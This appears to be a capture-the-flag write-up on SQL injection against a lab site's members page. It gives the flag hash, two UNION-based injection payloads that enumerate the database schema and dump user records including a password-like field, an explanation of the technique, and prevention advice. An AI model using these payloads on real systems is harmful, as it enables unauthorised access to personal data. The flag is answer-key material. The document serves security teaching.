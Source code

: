 # Sql Injection

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery and Exploitation

1. Navigate to the **MEMBERS** page.
2. To list all tables in the database, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT table_name, column_name FROM information_schema.columns
   ```
3. To list all columns in the `users` table, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
   ```
   > **Note:** The `CONCAT` function is used because there is a restriction that only two columns can be retrieved.
4. Follow the instructions for the user with ID 5 to obtain the flag.

## Why it works

SQL injection works by manipulating the SQL query that is executed by the application. By inserting specially crafted input, an attacker can alter the query's logic, allowing them to access or manipulate data they shouldn't be able to. In this case, the `UNION` operator is used to combine the results of the original query with the results of a malicious query, effectively bypassing the application's intended behavior and exposing sensitive information.

## Prevention

1. **Use Prepared Statements**: Use prepared statements or parameterized queries to separate SQL code from user input. This prevents attackers from injecting SQL code into the query.

2. **Input Validation**: Validate and sanitize all user inputs to prevent SQL injection attacks. Ensure that user-supplied data is properly encoded and does not contain malicious content.

3. **Least Privilege Principle**: Ensure that database users have the minimum necessary permissions to perform their tasks. Avoid using highly privileged accounts for routine operations.

4. **Database Firewall**: Implement a database firewall to monitor and block SQL injection attempts. These tools can help detect and prevent attacks in real-time.

5. **Regular Security Audits**: Regularly audit and test your application for security vulnerabilities, including SQL injection, to identify and fix potential issues before they can be exploited.
